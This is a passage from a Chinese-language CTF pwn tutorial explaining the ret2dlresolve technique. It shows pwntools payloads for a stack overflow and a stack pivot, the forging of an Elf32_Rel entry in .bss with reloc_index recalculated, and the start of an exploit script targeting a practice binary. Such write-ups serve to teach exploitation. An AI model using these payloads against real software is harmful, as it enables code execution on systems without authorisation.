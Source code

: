 ```python

payload = b'a'*0x108 + p32(base_addr-4) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(base_addr) + p32(0x200)
sh.send(payload)

payload = p32(start_resolve) + p32(8) + p32(0xdeadbeaf) + p32(0) + p32(bss + 0x200) + p32(0x200)
sh.send(payload)
```

## 0x03. 伪造reloc_index

到这一步，我们就正式开始进行`ret2dlresolve`了。

再次回顾这个图：

![在这里插入图片描述](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051458206.png)

我们上一步中往栈上`push`了一个`0x8`，实际上这就是图里面的`reloc_index`。而`0x8`是什么呢？

实际上，这是`.rel.plt`段的基地址和`write`函数的`Elf32_Rel`结构体的偏移。

`.rel.plt`段我们可以直接用`ida`查看：

![image-20240605150241386](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051502444.png)

图中，红框中即为`.rel.plt`段的内容，其为每个函数的`Elf32_Rel`结构体组成的。我们现在不用管这个结构体的内容，我们这一步只需要在栈上，也就是`bss`上伪造一个一模一样的结构体就可以了。该结构体定义如下：

```c
typedef struct{
  Elf32_Addr r_offset; // 图里面可以看到当前是0x804c00c，实则为got表的地址，但我们不用管
  Elf32_Word r_info;   // 图里面可以看到当前是0x207。
}Elf32_Rel
```

而伪造到栈上后，我们往栈上`push`的值就不再是`0x8`了，因为`0x8`是原本的结构体和`.rel.plt`基地址的偏移。

因此，我们需要计算我们伪造的结构体和`.rel.plt`基地址的差，并替换掉原本的`0x8`。

而`.rel.plt`的基地址从图里面就可以看到(`0x80482f4`)，或者也可以用`pwntools`来以如下方式查看：

```python
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
```

替换后，当前的`exp`如下所示：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug(params=''):
    for an_log in all_logs:
```
